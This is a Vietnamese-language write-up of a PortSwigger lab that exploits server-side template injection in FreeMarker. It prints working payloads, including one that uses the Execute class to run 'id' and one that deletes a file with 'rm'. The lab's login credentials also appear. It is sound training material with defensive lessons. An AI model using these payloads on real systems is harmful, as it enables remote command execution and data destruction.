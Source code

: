 # Write-up: Server-side template injection using documentation

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine FreeMarker, nơi trường template không được lọc, cho phép thực thi mã Java tùy ý. Bằng cách sử dụng class `freemarker.template.utility.Execute` từ tài liệu FreeMarker, kẻ tấn công thực thi lệnh `id` để xác nhận SSTI và xóa file `/home/carlos/morale.txt` để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong FreeMarker qua chức năng chỉnh sửa template, xác nhận khả năng thực thi mã với `${7*7}`, sử dụng class `Execute` để thực thi lệnh `id`, và xóa file `/home/carlos/morale.txt` để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Khai thác FreeMarker**  
- Đăng nhập với tài khoản `content-manager:C0nt3ntM4n4g3r`:  

- Truy cập sản phẩm bất kỳ và chọn chức năng chỉnh sửa template tại:  
    ```
    GET /product/template?productId=1 HTTP/2
    Host: 0an9021v22wx3456r0st201200uv00sr.web-security-academy.net
    Cookie: session=...
    ```  
- Quan sát thấy ứng dụng sử dụng cú pháp FreeMarker `${product.name}` để render thông tin sản phẩm:  
     
- Thử payload SSTI cơ bản trong trường template:  
    ```
    ${7*7}
    ```  
  - Kết quả: Server trả về giá trị `49`, xác nhận lỗ hổng **SSTI** trong FreeMarker:  
    ![Template FreeMarker](./images/1_template.png)       

- Thử thay `${product.name}` bằng `${product.getClass()}`:  
  ```
  ${product.getClass()}
  ```  
- Kết quả: Server trả về thông tin xác nhận FreeMarker trong Java:  
    ![Kết quả getClass](./images/2_getClass.png)  

- Đọc tài liệu FreeMarker, phát hiện cú pháp `.new()` cho phép khởi tạo instance của bất kỳ class nào implement `TemplateModel`. Tìm thấy class `freemarker.template.utility.Execute` hỗ trợ thực thi lệnh hệ thống.  
    ![Kết quả id carlos](./images/3_new.png)
- Sử dụng payload để thực thi lệnh `id`:  
    ```
    ${"freemarker.template.utility.Execute"?new()("id")}
    ```  
- Kết quả: Server trả về `carlos`, xác nhận payload SSTI thành công, cho phép thực thi lệnh hệ thống:  
    ![Kết quả id carlos](./images/4_id.png)  

2. **Thực hiện xóa tệp morale.txt**  
- Sử dụng payload FreeMarker để thực thi lệnh `rm /home/carlos/morale.txt`:  
    ```
    ${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
    ```  
- Kết quả: File `/home/carlos/morale.txt` bị xóa, lab xác nhận hoàn thành:  
  ![Lab hoàn thành](./images/5_solved.png)  

- **Ý tưởng payload**:  
    - Sử dụng SSTI trong FreeMarker với class `freemarker.template.utility.Execute` để thực thi lệnh hệ thống, xóa file `/home/carlos/morale.txt`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong FreeMarker, sử dụng class `freemarker.template.utility.Execute` để thực thi lệnh hệ thống như `id` và `rm`.  
- Nhận thức tầm quan trọng của việc vô hiệu hóa các class nhạy cảm như `Execute` trong FreeMarker, lọc đầu vào người dùng trong template engine, và hạn chế quyền thực thi lệnh hệ thống trong môi trường production.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** trong FreeMarker, nhấn mạnh tầm quan trọng của việc cấu hình an toàn template engine và lọc đầu vào để ngăn chặn thực thi lệnh hệ thống trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*